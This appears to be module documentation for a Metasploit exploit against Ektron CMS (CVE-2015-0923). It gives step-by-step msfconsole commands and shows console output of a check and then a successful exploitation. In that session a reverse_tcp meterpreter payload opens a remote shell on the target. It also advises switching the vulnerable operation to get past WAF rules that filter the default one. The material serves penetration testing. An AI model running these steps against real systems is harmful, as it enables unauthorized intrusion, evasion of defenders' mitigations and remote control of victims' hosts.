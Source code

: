 The following is the recommended format for module documentation.
But feel free to add more content/sections to this.


## Vulnerable Application

  Ektron Content Management System (CMS) 8.5 and 8.7 before 8.7sp2 and 9.0 before sp1 (according to CVE-2015-0923)

## Verification Steps

  Ektron has been acquired by another company and finding installers may prove difficult. But if you can build a test network the following may be used to verify:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/ektron_xslt_exec_ws```
  4. Do: ```set RHOST [target ip]```
  5. Do: ```check```
  6. You should receive a target vulnerable message.
  7. Do: ```run```
  8. You should get a shell.

  In our experience testing against 64 bit hosts should still pass the 'check' in step 6 and return a target vulnerable message. But when injecting shellcode into a new thread it may require the tester to adjust the payload as well. This may be done as follows:

  1. Do ```set PAYLOAD windows/x64/meterpreter```

## Options

  These are important but perhaps less-used options. There are quite a few other 'web' options available which will not be discussed due to their generality.

  **TARGETOP**

  There are multiple operations which are vulnerable to this XSLT bug. We have enumerated more (likely all) of the operations in ServerControlWS.asmx and provide testers with the ability to test the additional options by setting this option to one of the following: ContentBlockEx, GetContentFlaggingString,GetMessagingString, GetBookmarkString, GetContentRatingString

  This value defaults to ContentBlockEx (from the original reports). Testers may find adjusting this value useful if defenders have included Web Application Firewall (WAF) rules to specifically filter ContentBlockEx as a mitigation in lieu of updating.

  **TARGETURI**

  This allows the tester to adjust the base-installation path. The default value is '/cms400min' but in our experience many deployments are simply the root path '/'.

## Scenarios

  Checking if a target is vulnerable.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable
  msf exploit(ektron_xslt_exec_ws) >
  ```

  Exploiting a Win7 x64 installation to obtain shell.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable.
  msf exploit(ektron_xslt_exec_ws) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
  PAYLOAD => windows/x64/meterpreter/reverse_tcp
  msf exploit(ektron_xslt_exec_ws) > set LHOST 192.168.1.50
  LHOST => 192.168.1.50
  msf exploit(ektron_xslt_exec_ws) > exploit
  [*] Started reverse TCP handler on 192.168.1.50:4444
  [*] Generating the EXE Payload and the XSLT...
  [*] Trying to run the xslt transformation...
  [+] Exploitation was successful
  [*] Sending stage (1189423 bytes) to 192.168.1.175
  [*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.175:49169) at 2016-10-30 04:36:50 +0000

  meterpreter >
  ```
